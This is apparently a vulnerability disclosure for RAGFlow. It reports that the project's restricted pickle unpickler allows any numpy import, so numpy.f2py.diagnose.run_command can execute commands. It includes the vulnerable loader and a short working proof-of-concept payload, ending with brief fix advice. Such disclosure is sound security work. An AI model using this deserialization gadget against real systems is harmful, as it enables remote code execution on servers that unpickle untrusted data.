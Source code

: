 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| <0.7.0   | :white_check_mark: |

## Reporting a Vulnerability

### Branch name

main

### Actual behavior

The restricted_loads function at [api/utils/__init__.py#L215](https://github.com/infiniflow/ragflow/blob/main/api/utils/__init__.py#L215) is still vulnerable leading via code execution.
The main reson is that numpy module has a numpy.f2py.diagnose.run_command function directly execute commands, but the restricted_loads function allows users import functions in module numpy.


### Steps to reproduce


**ragflow_patch.py**

```py
import builtins
import io
import pickle

safe_module = {
    'numpy',
    'rag_flow'
}


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        import importlib
        if module.split('.')[0] in safe_module:
            _module = importlib.import_module(module)
            return getattr(_module, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))


def restricted_loads(src):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(src)).load()
```
Then, **PoC.py**
```py
import pickle
from ragflow_patch import restricted_loads
class Exploit:
     def __reduce__(self):
         import numpy.f2py.diagnose
         return numpy.f2py.diagnose.run_command, ('whaomi', )

Payload=pickle.dumps(Exploit())
restricted_loads(Payload)
```
**Result**
![image](https://github.com/infiniflow/ragflow/assets/85293841/8e5ed255-2e84-466c-bce4-776f7e4401e8)


### Additional information

#### How to prevent?
Strictly filter the module and name before calling with getattr function.
